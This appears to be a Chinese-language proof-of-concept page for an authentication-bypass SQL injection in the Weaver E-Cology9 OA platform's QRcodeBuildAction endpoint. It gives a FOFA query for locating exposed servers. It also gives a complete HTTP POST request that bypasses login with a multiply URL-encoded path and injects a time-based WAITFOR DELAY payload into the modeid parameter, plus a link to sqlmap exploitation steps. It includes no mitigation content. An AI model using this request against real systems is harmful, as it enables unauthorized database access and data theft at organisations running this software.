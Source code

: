 # 泛微E-Cology9平台QRcodeBuildAction存在身份认证绕过导致SQL注入漏洞

由于泛微E-Cology9 weaver.formmode.servelt.QRcodeBuildAction接口未对用户传入的数据进行严格的校验和过滤，导致攻击者利用多层编码的方式绕过身份认证进行SQL注入。

## fofa

```javascript
 app="泛微-OA（e-cology）"
```

## poc

注入点为modeid并且每注入一次就需要更换参数值

```javascript
POST /weaver/weaver.formmode.servelt.QRcodeBuildAction/login/LoginSSO.%25%36%61%25%37%33%25%37%30 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
 
modeid=127+WAITFOR+DELAY+'0%3a0%3a5'
```

sqlmap利用方式：https://blog.csdn.net/qq_41904294/article/details/131666128
